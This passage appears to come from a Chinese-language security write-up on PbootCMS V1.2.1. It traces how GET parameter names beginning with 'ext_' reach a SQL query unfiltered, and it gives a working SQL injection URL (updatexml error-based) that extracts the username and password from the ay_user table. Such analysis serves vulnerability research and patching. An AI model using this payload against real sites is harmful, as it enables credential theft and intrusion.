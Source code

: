 ```
// 解析全局后置公共标签
    public function parserAfter($content)
    {
        ...
        $content = $this->parserSpecifyListLabel($content); // 指定列表
        return $content;
    } 
```

方法：parserSpecifyListLabel(

```
进入以后 查看调用了 $content = $this->parserSpecifyListLabel($content); 方法 
```

```
// 解析指定分类列表标签
public function parserSpecifyListLabel($content)
{
  ...
  // 数据筛选 骚操作注入
  $where2 = array();
  foreach ($_GET as $key => $value) {
    if (substr($key, 0, 4) == 'ext_') { // 其他字段不加入
      $where2[$key] = get($key);
    }
  }
  ...
  // 读取数据
  if ($page) {
    $data = $this->model->getList($scode, $num, $order, $where1, $where2);
  } else {
    $data = $this->model->getSpecifyList($scode, $num, $order, $where1, $where2);
  }
} 
```

这里就将重要的方法分析一下了，其他无关的就删除掉避免影响阅读。
这里接收了外部了外部所有的get参数然后判断了开头的前4个字符是否 ext_ 开头，如果符合就直接拼接进入$where2这个数组 然后带入数据库进行getList方法与getSpecifyList查询，而底层是字符串拼接，过滤了value没有过滤key所以有注入

## 0x08.4 前台搜索框注入

### 0x08.4.1 漏洞利用

```
url:http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Search/index?keyword=aaaa&updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123 
```

![image](../img/029a1a49df3f3a14ff52b2160da88d97.png)
